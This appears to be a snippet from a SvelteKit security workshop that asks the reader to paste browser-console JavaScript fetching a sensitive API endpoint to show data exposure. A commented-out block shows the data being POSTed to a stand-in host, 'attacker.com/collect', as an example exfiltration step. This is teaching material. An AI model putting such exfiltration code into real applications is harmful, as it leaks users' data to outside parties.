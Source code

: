 # SvelteKit Security Workshop

Paste this into the browser console to see how easy it is to steal
data from the server:

```js
fetch('/api/sensitive')
	.then((r) => r.json())
	.then((data) => {
		console.log('Stolen data:', data);
		// In real attack, would send to attacker's server:
		// fetch('https://attacker.com/collect', {
		//     method: 'POST',
		//     body: JSON.stringify(data)
		// });
	});
```
